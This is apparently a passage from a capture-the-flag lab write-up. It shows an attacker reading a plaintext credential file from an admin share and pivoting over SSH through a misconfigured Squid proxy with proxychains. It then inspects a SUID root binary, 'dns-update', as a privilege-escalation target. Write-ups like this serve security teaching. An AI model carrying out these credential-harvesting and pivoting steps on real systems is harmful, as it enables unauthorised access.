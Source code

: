 ```
C:\Users\madison.wilton\Documents>type "\\ECWIDC\C$\Datastore\Network Admin\dns_secure_update_information.txt"
type "\\ECWIDC\C$\Datastore\Network Admin\dns_secure_update_information.txt"
=== Instructions for adding ecwi.cysca DNS entries ===
1. Connect to the DMZ DNS server using SSH.
     * This cannot be done when connecting from home over the internet.
2. User is dnsmanager, password is peremptory!ching!university!exopoditic
3. Use dns-update to add dns entries
```

We see the hint about not being able to connect from home, so we decide to use ssh to connect to the DMZ DNS server via the misconfigured Squid proxy. We use the credentials supplied in the text file.

```
root@kali:~# proxychains ssh dnsmanager@172.16.5.53
ProxyChains-3.1 (http://proxychains.sf.net)
|S-chain|-<>-172.16.5.30:3128-<><>-172.16.5.53:22-<><>-OK
dnsmanager@172.16.5.53's password:
Welcome to Ubuntu 14.04.3 LTS (GNU/Linux 3.16.0-30-generic x86_64)
------- 8< 8< 8< SNIP --------
Last login: Tue Aug 11 02:04:20 2015 from 10.0.0.1
dnsmanager@DMZDNS:~$
```

We follow the instructions and run `dns-update` and we are greeted with some usage instructions. It looks like it is custom software written by Jeremy Amadio. We run the `which` command to locate the full path to the `dns-update` file, it's path is `/usr/sbin/dns-update`. We then use `ls` and notice that the `SUID bit is set` on this executable. We then use `file` confirm it is a 32 bit ELF binary. Because of the SUID bit being set, if we can find an exploitable vulnerability in this binary we should be able to gain root access!.

```
dnsmanager@DMZDNS:~$ dns-update
You need to have the right number of params in the command line
ECWI Secure DNS Updater
Written by Jeremy Amadio
Usage: dns-update [hosteddomain] [hostname] [ip]
	 hosteddomain - The name of the domain that the host should be added to. Should always be ecwi.cysca
	 hostname - The name of the A record to be added
	 ip - The IPv4 address that the A record should include
dnsmanager@DMZDNS:~$ which dns-update
/usr/sbin/dns-update
dnsmanager@DMZDNS:~$ ls -la /usr/sbin/dns-update
-rwsr-xr-x 1 root root 9724 Aug 11 01:49 /usr/sbin/dns-update
dnsmanager@DMZDNS:~$ file /usr/sbin/dns-update
/usr/sbin/dns-update: setuid ELF 32-bit LSB  executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=2eb18ecedf3772bb78e5108cb17202b11fd39dfc, stripped
dnsmanager@DMZDNS:~$ ls -la /usr/sbin/dns-update
-rwsr-xr-x 1 root root 9724 Aug 11 01:49 /usr/sbin/dns-update
```
